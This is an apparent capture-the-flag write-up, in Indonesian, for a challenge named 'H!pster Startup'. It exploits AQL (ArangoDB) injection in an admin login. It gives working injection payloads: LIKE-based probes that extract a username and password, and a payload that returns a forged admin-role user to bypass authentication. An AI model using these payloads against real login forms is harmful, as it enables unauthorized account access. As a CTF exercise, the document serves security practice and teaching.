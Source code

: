 # H!pster Startup


Halaman admin ada di /admin

Saat mencoba menginput tanda kutip (').
Pesan `AQL syntax error`. Setelah dilakukan googling ternyata itu adalah pesan error untuk `ArangoDB` yang merupakan database NoSQL.

asumsi query login yang digunakan
```mysql
FOR u in users
FILTER u.user == USER && u.passwd == PASSWD
RETURN u
```

Awal nya kami  melakukan brute force username dan password menggunakan query berikut

```mysql
user=admin&passwd=a' OR (u.user LIKE "tim%") RETURN u.user //

```mysql
user=admin&passwd=a' OR (u.passwd LIKE "iamsoawesome%") RETURN u.user //
```

Didapatkan username : tim dan password iamsoawesome. Tapi saat login mengeluarkan pesan bahwa user tersebut bukan admin.

Oleh karena itu kami mencoba melakukan return role admin.

```mysql
user=admin&passwd=' OR (u.passwd LIKE "iamsoawesome%") RETURN {_id: "users/c", user: "admin", passwd: "admin", role: "admin"} //
```

Lalu akan memunculkan flag.
